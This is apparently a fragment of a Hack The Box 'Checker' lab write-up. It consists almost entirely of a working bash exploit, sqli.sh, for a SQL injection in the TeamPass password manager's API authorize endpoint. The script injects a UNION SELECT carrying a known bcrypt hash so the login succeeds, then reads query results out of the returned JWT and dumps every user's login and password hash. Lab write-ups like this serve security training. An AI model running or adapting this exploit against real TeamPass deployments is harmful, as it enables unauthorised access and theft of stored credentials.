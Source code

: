 `sqli.sh`

```bash
if [ "$#" -lt 1 ]; then
  echo "Usage: $0 <base-url>"
  exit 1
fi

vulnerable_url="$1/api/index.php/authorize"

check=$(curl --silent "$vulnerable_url")
if echo "$check" | grep -q "API usage is not allowed"; then
  echo "API feature is not enabled :-("
  exit 1
fi

# htpasswd -bnBC 10 "" h4ck3d | tr -d ':\n'
arbitrary_hash='$2y$10$u5S27wYJCVbaPTRiHRsx7.iImx/WxRA8/tKvWdaWQ/iDuKlIkMbhq'

exec_sql() {
  inject="none' UNION SELECT id, '$arbitrary_hash', ($1), private_key, personal_folder, fonction_id, groupes_visibles, groupes_interdits, 'foo' FROM teampass_users WHERE login='admin"
  data="{\"login\":\""$inject\"",\"password\":\"h4ck3d\", \"apikey\": \"foo\"}"
  token=$(curl --silent --header "Content-Type: application/json" -X POST --data "$data" "$vulnerable_url" | jq -r '.token')
  echo $(echo $token| cut -d"." -f2 | base64 -d 2>/dev/null | jq -r '.public_key')
}

users=$(exec_sql "SELECT COUNT(*) FROM teampass_users WHERE pw != ''")

echo "There are $users users in the system:"

for i in `seq 0 $(($users-1))`; do
  username=$(exec_sql "SELECT login FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  password=$(exec_sql "SELECT pw FROM teampass_users WHERE pw != '' ORDER BY login ASC LIMIT $i,1")
  echo "$username: $password"
done
```

![Screenshot 2025-02-26 at 5.08.40 PM.png](/assets/Images/HTB_Checker/Screenshot_2025-02-26_at_5.08.40_PM.png)
